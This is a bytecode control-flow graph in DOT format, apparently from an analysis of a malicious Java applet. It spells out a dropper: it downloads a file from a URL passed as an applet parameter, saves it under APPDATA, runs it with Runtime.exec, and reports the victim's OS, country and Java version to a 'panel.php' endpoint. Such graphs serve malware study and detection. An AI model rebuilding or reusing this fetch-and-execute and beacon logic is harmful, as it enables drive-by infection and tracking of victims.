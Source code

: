 digraph "" {
    "r0 := @this: Java"
    "staticinvoke <java.util.Locale: java.util.Locale getDefault()>"
    "r0 := @this: Java"->"staticinvoke <java.util.Locale: java.util.Locale getDefault()>";
    "virtualinvoke <java.util.Locale: java.lang.String getCountry()>"
    "staticinvoke <java.util.Locale: java.util.Locale getDefault()>"->"virtualinvoke <java.util.Locale: java.lang.String getCountry()>";
    "store.r r2"
    "virtualinvoke <java.util.Locale: java.lang.String getCountry()>"->"store.r r2";
    "push \"os.name\""
    "store.r r2"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "store.r r3"
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"store.r r3";
    "push \"java.runtime.version\""
    "store.r r3"->"push \"java.runtime.version\"";
    "push \"java.runtime.version\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r4"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r4";
    "push \"APPDATA\""
    "store.r r4"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r r5"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r r5";
    "load.r r0"
    "store.r r5"->"load.r r0";
    "push \"file\""
    "load.r r0"->"push \"file\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"file\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r6"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"r\""
    "load.r r0"->"push \"r\"";
    "push \"r\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r51"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r51";
    "new java.io.FileOutputStream"
    "store.r r51"->"new java.io.FileOutputStream";
    "store.r $r17"
    "new java.io.FileOutputStream"->"store.r $r17";
    "load.r $r17"
    "store.r $r17"->"load.r $r17";
    "new java.lang.StringBuilder"
    "load.r $r17"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r5"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r5";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r5"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r6"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "store.r r8"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r8";
    "new java.net.URL"
    "store.r r8"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"lol\""
    "load.r r0"->"push \"lol\"";
    "push \"lol\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r11"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r11";
    "push 1024"
    "store.r r11"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r12"
    "newarray"->"store.r r12";
    "load.r r11"
    "store.r r12"->"load.r r11";
    "load.r r12"
    "load.r r11"->"load.r r12";
    "push 0"
    "load.r r12"->"push 0";
    "push 0"->"load.r r12";
    "arraylength"
    "load.r r12"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r11"
    "push -1"->"ifcmpeq.i load.r r11";
    "ifcmpeq.i load.r r11"->"load.r $r17";
    "load.r $r17"->"load.r r12";
    "load.r r12"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r11"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r11";
    "store.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r11"->"load.r r11";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r11"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r17";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r17"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "load.r r8"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r8";
    "load.r r8"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "load.r r51"
    "dup1.r"->"load.r r51";
    "checkcast"
    "load.r r51"->"checkcast";
    "checkcast"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"checkcast";
    "checkcast"->"store.r r5";
    "store.r r5"->"load.r r0";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Java: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"->"load.r r5";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r5"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "new java.io.InputStreamReader"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"new java.io.InputStreamReader";
    "new java.io.InputStreamReader"->"store.r r5";
    "store.r r5"->"load.r r5";
    "load.r r5"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "virtualinvoke <Java: java.net.URL getCodeBase()>"
    "load.r r0"->"virtualinvoke <Java: java.net.URL getCodeBase()>";
    "virtualinvoke <Java: java.net.URL getCodeBase()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"panel.php?os=\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"panel.php?os=\"";
    "push \"panel.php?os=\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r3"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r3";
    "push \" \""
    "load.r r3"->"push \" \"";
    "push \"%20\""
    "push \" \""->"push \"%20\"";
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"
    "push \"%20\""->"virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&country=\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&country=\"";
    "push \"&country=\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r2"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&status=\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&status=\"";
    "push \"&status=\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1\"";
    "push \"1\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"&jrver=\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"&jrver=\"";
    "push \"&jrver=\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r4"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r4";
    "load.r r4"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.net.URL: void <init>(java.net.URL,java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.net.URL: void <init>(java.net.URL,java.lang.String)>";
    "new java.io.BufferedReader"
    "specialinvoke <java.net.URL: void <init>(java.net.URL,java.lang.String)>"->"new java.io.BufferedReader";
    "new java.io.BufferedReader"->"store.r r0";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "store.r r0"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "specialinvoke <java.io.InputStreamReader: void <init>(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"specialinvoke <java.io.InputStreamReader: void <init>(java.io.InputStream)>";
    "specialinvoke <java.io.InputStreamReader: void <init>(java.io.InputStream)>"->"load.r r0";
    "load.r r0"->"load.r r5";
    "specialinvoke <java.io.BufferedReader: void <init>(java.io.Reader)>"
    "load.r r5"->"specialinvoke <java.io.BufferedReader: void <init>(java.io.Reader)>";
    "specialinvoke <java.io.BufferedReader: void <init>(java.io.Reader)>"->"load.r r0";
    "virtualinvoke <java.io.BufferedReader: java.lang.String readLine()>"
    "load.r r0"->"virtualinvoke <java.io.BufferedReader: java.lang.String readLine()>";
    "ifnull load.r r0"
    "virtualinvoke <java.io.BufferedReader: java.lang.String readLine()>"->"ifnull load.r r0";
    "goto load.r r0"
    "ifnull load.r r0"->"goto load.r r0";
    "ifnull load.r r0"->"load.r r0";
    "virtualinvoke <java.io.BufferedReader: void close()>"
    "load.r r0"->"virtualinvoke <java.io.BufferedReader: void close()>";
    "goto return"
    "virtualinvoke <java.io.BufferedReader: void close()>"->"goto return";
    "goto return"->"return";
}
